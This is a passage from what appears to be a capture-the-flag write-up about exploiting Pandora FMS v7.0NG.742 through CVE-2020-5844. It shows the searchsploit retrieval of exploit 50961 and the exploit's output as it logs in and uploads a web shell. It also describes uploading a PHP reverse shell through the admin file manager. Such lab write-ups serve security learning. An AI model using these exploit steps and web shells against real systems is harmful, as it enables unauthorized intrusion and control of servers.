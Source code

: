 
## Exploitation

### Pivoting to user `matt` by gaining RCE via webshell generated by following exploit:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 50961    
  Exploit: Pandora FMS v7.0NG.742 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50961
     Path: /usr/share/exploitdb/exploits/php/webapps/50961.py
    Codes: CVE-2020-5844
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (1384)
Copied to: /home/kali/50961.py
```

#### 50961.py output
```shell
┌──(kali㉿kali)-[~]
└─$ python 50961.py -t localhost 1080 -p snka5scpru91e43eu55164cm0r                  

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2020-5844 (Pandora FMS v7.0NG.742) - Remote Code Execution
OPTIONS: Web Shell Mode
PHPSESS: snka5scpru91e43eu55164cm0r
WEBFILE: unicord.php
WEBSITE: http://localhost:1080/pandora_console
EXPLOIT: Connected to website! Status Code: 200
EXPLOIT: Logged into Pandora FMS!
EXPLOIT: Web shell uploaded!
SUCCESS: Web shell available at: http://localhost:1080/pandora_console/images/unicord.php?cmd=whoami 
```

## Successful pivot to user `matt`

### Reverse shell not working with RCE for some reason. 
- I didn't feel like playing around with the web shell as I had some issues with it actually executing files I had it retrieve with wget so I went investigating for another means.
- Web application has file upload via Admin -> File Manager!
- Uploaded php-reverse-shell.php 
![[Pasted image 20230131135834.png]]

Let's visit http://localhost:1080/pandora_console/images/php-reverse-shell.php and setup our listener...
